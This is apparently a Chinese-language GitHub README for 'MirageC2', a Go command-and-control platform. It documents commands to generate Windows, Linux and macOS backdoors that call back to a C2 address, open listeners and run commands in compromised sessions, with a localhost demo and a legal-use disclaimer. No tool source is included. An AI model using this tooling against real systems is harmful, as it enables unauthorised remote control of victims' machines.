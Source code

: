 # MirageC2
一款基于golang开发的C2平台，在后续的开发中，将陆续完善其功能。

# 安装方式
在服务端，您的PC需要具备[golang](https://go.dev)的运行环境，用于生成木马。

# 使用方式
1. 运行可执行程序打开MirageC2服务器端。
```
> help:		输出帮助信息。
> create: 	通过Create参数来生成指定的Shell。例子: create <windows/linux/darwin> <C2IP:C2Port> <Save Path>
            [!] 注意如果使用create功能，您必须保证Server端拥有golang的运行环境。
> kill:		杀死指定的job或者session。例子：kill job <id>
> listen:  	在本地设置侦听的端口。例子: listen 127.0.0.1:8888
> show: 	[jobs,sessions]查看侦听的端口以及能够命令控制的会话。例如：show sessions
> session:	进入到指定会话中进行命令执行。例子: session <id>
```
2. 使用案例
```
Mirage Control > listen 127.0.0.1:8888
[+] Jobs Set: listen ip 127.0.0.1:8888

Mirage Control > create darwin 127.0.0.1:8888 mirage
[+] 已经成功输出后门程序至指定的目录！
[!] 如果您还未进行侦听，请运行：listen 127.0.0.1:8888

Mirage Control >  
[+] Sessions 1 Online: 127.0.0.1:52056 -> 127.0.0.1:8888

Mirage Control > show sessions
[*] Job ID: "1", Client IP: "127.0.0.1:52057", Shell User: "deepmountains", Platform: "darwin", ProcessName: "mirage"

Mirage Control > session 1

Mirage Control -> Session1 > whoami
[+] Command ID: 0 
[-+] Result: --------------- 
deepmountains
[-+] Result: ---------------
Mirage Control -> Session1 > exit
[*] Sessions 1 将被挂起
```

# 免责声明
本工具仅供合法用途使用，旨在帮助用户测试和评估其自身系统的安全性，以发现潜在漏洞并采取适当的补救措施。使用本工具前，您需仔细阅读并同意以下免责声明：
1. 合法使用：本工具应仅在您拥有合法授权的系统或网络上使用。任何在未经授权的情况下使用本工具对他人系统进行测试的行为，均被视为违法，并可能导致刑事或民事责任。
2. 责任限制：使用本工具所产生的一切后果由用户自行承担。开发者不对因使用本工具造成的任何直接或间接损失负责，包括但不限于系统崩溃、数据丢失或服务中断。
3. 禁止恶意用途：严禁将本工具用于任何形式的恶意活动，包括但不限于黑客攻击、数据窃取、破坏系统或绕过安全措施等。
4. 知法守法：用户需确保其使用行为符合所在国家和地区的法律法规。若因用户的非法使用行为引发任何法律纠纷，开发者概不负责。
5. 技术支持：本工具为“按现状”提供，开发者不保证其适用于任何特定用途或场景，也不承诺提供技术支持或更新。
